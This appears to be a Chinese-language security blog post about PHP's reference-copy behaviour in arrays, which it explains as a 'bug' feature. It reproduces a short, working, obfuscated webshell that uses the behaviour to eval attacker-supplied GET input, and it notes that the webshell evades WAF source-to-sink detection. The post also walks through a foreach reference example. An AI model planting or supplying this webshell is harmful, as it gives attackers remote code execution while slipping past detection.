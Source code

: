
## PHP "BUG" 特性

[PHP 在线工具 - 菜鸟工具](https://c.runoob.com/compile/1/)

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

上面运行结果可以看出c这个字符内存地址相同的问题。

为什么\$c=\$a后，\$c[0]会改变\$a[0]呢。七友大佬给出了官方的解释：

如果对数组的单个元素进行引用，然后复制数组，无论是通过赋值还是通 过函数调用中的值传递，都会将引用复制为数组的一部分。这意味着对任一数组中任何此类元素的更改 都将在另一个数组（和其他引用中）中重复

## 条件

即，满足这个BUG特性需要两个条件

1.原数组的一个元素被引用了，即&$a[0]

2.原数组被复制了，即$b=$a

那么此时，我们就可以通过复制过去的数组，去修改原数组那一个元素，因为两个数组中这两个元素指向同一个地址。

 - [ ] 再看大佬给出的Webshell，猜猜是怎么执行的。
       
       <?php
       
       $a = array(1 => "A");
       
       $b=&$a[1];
       
       $c=$a;
       
       $c[$_GET["mem"]]=$_GET["cmd"];
       
       eval($a[1]);
       
       ?>

首先\$b是工具人，用于触发元素引用的条件。之后\$c复制了数组\$a，数组\$c修改了\$_GET["mem"]这个索引对应的参数为\$_GET["cmd"]。最后命令执行数组$a[1]索引参数。

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

显然没传参时看不出什么结果。但是结合利用图就能明白了。数组$c还没有接收参数，因此它现在还不具备修改\$a元素的第二个条件。等到用户传参men为1时才满足，此时数组$a[1]的值为用户传参cmd，eval命令执行。正因为该行为不容易被source到sink规则检测出来，适合用于过Waf。

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

大佬最后留了一个问题，以下内容输出结果的思考。

[![XNtnDH.png](https://s1.ax1x.com/2022/06/03/XNtnDH.png)](https://imgtu.com/i/XNtnDH)

为什么第二次输出\$array[2]改变了？不妨思考foreach执行到最后一句，是\$array[2]=&\$item，这时&\$item的地址不再改变，即$item=&array[2]。

> array(3) {
> 
> [0]=>
> 
> int(1)
> 
> [1]=>
> 
> int(2)
> 
> [2]=>
> 
> &int(3)
> 
> }

再执行一次foreach，依次执行了\$item=\$array[0]，具备修改条件，此时array[2]为1；\$item=\$array[1]，具备修改条件，此时array[2]为2；\$item[2]=\$array[2]，具备修改条件，此时赋值完还是2。

更多解释可以看这篇英文原文：https://bugs.php.net/bug.php?id=29992
